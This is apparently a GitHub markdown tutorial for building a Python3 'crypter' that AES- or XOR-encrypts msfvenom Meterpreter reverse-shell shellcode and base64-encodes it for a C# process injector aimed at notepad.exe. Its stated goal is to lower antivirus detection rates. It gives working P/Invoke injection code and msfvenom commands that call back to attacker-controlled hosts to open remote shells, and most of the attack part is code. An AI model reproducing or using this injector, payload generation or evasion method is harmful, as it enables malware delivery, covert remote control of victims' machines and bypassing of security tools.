

# Python3 Crypter

## Overview

We will create a simeple python3 Crypter. The script with take raw shell code, in hex string format and encrypt it with AES or XOR encryption. The encrypted shell code will finaly be encoded into a base64 string, ready to be used in a C# process injection executable, as a proof of concept.

In this example, we will aim to reduce our detection rate on [AntiScan.me](https://antiscan.me/). We will use a basic process injection technique, by calling native DLLs with P/Invoke. This technique is not advanced and will not completey bypass antivirus detection, but it should show reductions in detection rates.

## The C# Process Injector

The C# code aims to inject shell code into the notepad.exe process. It uses P/Invoke to call functions from the kernel32.dll. We call OpenProcess(), VirtualAllockEx(), WriteProcessMemory() and CreateRemoteThread().

```CS
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr OpenProcess(uint proessAccess, bool bInheritHandle, int processId);

[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtec);

[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
```

The shell code was created with msfvenom and sits inside the main function in the buf byte array.
```CS
// msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.33 LPORT=443 EXITFUNC=thread -f csharp
byte[] buf = new byte[685] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52 }
```

The rest of the code then gets the process name that we wan't to inject into. OpenProcess then gets a handle to the requested process, in this case it's notepad. VirtualAllocEx, allocates memory in the notepad process, along with the tyep of memory and sets the memory protection to 'PAGE_EXECUTE_READWRITE' (0x40). WriteProcessMemory then writes the shell code contained inside the buf byte array into the allocated memory. CreateRemoteThread, then creates a thread that runs in notpads virtual address space, executing the shell code.

```CS
Process processName = Process.GetProcessesByName("notepad")[0];

IntPtr hProcess = OpenProcess(0x001F0FFF, false, processName.Id);
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

## Current Detection rate

We build this C# code and uploaded to [AntiScan.me](https://antiscan.me/). The results show that our code is detected by 10/26 of the antivirus scans performed. We can now create the python3 Crypter and try to lower this detection rate.



```

```

## Creating The Python3 AES And XOR Script

### Code Overview 

The Python code will take one argument. The argument determins the encryption type to be used. The script with then run a hard coded msfvenom, system command via python subprocess. The output from the msfvenom command is then encrypted via the chosen encryption type. The last function in the script will encode the encrypted bytes into a base64 string, ready to be used with the C# Process Injection application.

## Getting Our Msfvenom Shell Code 

The first function will simply run a command and save the output to a variable named 'output'. This variable will be returned. For the msfvenom command, we will use a format type of HEX, as this will generate a raw hex string. We will add EXITFUNC of thread, as this runs the shellcode in a sub-thread and gives us a clean exit when closing the connection. 

```python
def shell_format():

    command = "msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.111.128 LPORT=443 EXITFUNC=thread -f hex"
    #command = 'msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.33 LPORT=443 EXITFUNC=thread -f hex'
    output = subprocess.check_output(f"{command}", shell=True)

    return output
```

## Encrypting The Shell Code Hex String

With our returned hex string (output), we will call the function 'aes_encrypt_shellcode(data)' and pass the msfvenom command output as data. The following function will assemble the pices needed to encrypt our data variable.

The function will create two random 16 byte numbers. The first named IV ([Initialization vector](https://en.wikipedia.org/wiki/Initialization_vector)) and second named key ([Encryiption Key](https://en.wikipedia.org/wiki/Key_(cryptography))). The two variables are needed to create our cipher.

Padding is then added to the data, as we are using AES.MODE_CBC. From there, the cipher_create() function is called, along with the three arguments of key,padded and IV. Once the cipher_create() function encryptes the data, it returns it to the 'encrypted_data' variable.

The aes_encrypt_shellcode() function then sends the encrypted_data, IV and key to be encoded.

```python
# Creation of key, IV. Then calls cipher_create function. 
def aes_encrypt_shellcode(data):

    IV = get_random_bytes(16)
    key = get_random_bytes(16)

    padded = pad(data,16)
    # Call cipher_create function
    encrypted_data = cipher_create(key,padded,IV)
    # Call base64_encode. 'encrypted_data' is converted to bytes inside C# app
    base64_encode(encrypted_data, IV, key)
```

Called from aes_encrypt_shellcode() and encyrptes our data.

```python
# Creates cipher, uses cipher to encrypt data. returns said data.
def cipher_create(key,shellcode,IV):
    # cipher creation
    cipher = AES.new(key,AES.MODE_CBC, IV)
    #Encrypts with the newly created cipher.
    return cipher.encrypt(shellcode)
```

## Base64 Encoding

```python
def base64_encode(encrypted_data, IV=False, key=False):

    if IV and key:
        encoded_iv = base64.b64encode(IV)
        print(f"IV: {encoded_iv.decode(('utf-8'))}")

        encoded_key = base64.b64encode(key)
        print(f"KEY: {encoded_key.decode(('utf-8'))}")

        encoded = base64.b64encode(encrypted_data)
        print(f"SHELL: {encoded.decode('utf-8')}")

    else:
        # 'encrypted_data' converted to bytes, ready for the C# app
        byte_data = bytes(encrypted_data, 'utf-8')
        encoded_data = base64.b64encode(byte_data)

        print(f"XOR Key: {key}\n")
        print(f"XOR base64: {encoded_data.decode('utf-8')}")
```
